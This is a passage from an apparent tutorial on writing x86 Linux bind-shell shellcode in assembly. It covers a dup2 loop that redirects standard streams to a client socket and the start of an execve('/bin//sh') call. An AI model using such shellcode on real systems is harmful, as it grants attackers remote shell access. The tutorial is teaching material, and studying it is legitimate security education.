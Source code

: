 ## Redirecting STDIN, STDOUT, and STDERR to the client connection

Looking at the C code again we can see that we used dup2() for the redirection:

```c
dup2(client_sock, 0);
```
We can iterate over each file descriptor (0,1,2) by using a loop to make things more efficient.

First we'll need to setup our counter in the counter register (ECX).

```nasm
xor ecx, ecx
mov cl, 0x2
```

Now comes the actual loop. We'll be using the JNS instruction which basically means continue to jump to the start of the loop until the signed flag is set. We'll be decrementing our counter register each time, and once -1 is returned the signed flag will get set and break the loop.

We'll also need the dup2() system call number. Which we can find in `/usr/include/i386-linux-gnu/asm/unistd_32.h` as 63. Converted to hex that gives us 0x3f. 

```nasm
loop:
	mov al, 0x3f
	int 0x80
	dec ecx	
	jns loop
```

# Executing a Shell

Finally we have arrived at the end. No more socket calls here we simply need to call /bin/sh. 

Referencing our C code one last time:

```c
execve("/bin/sh", NULL, NULL);
```

Checking the main pages for execve() we see that /bin/sh will need to be our first argument (inside EBX) and we can null out the other two arguments since we aren't passing any arguments to /bin/sh. Since /bin/sh is only 7 characters we can add an extra slash in to make it an even 8 to make it easier for the hexadecimal translation. We'll also need to push /bin//sh in reverse as the stack grows from high to low memory. 

Utilizing python we can figure out what we need. 

```python
>>> a = '/bin//sh'
>>> a[::-1]
'hs//nib/'
```

We'll want to break up the string into 4 byte halves to have a clean hex address to use.
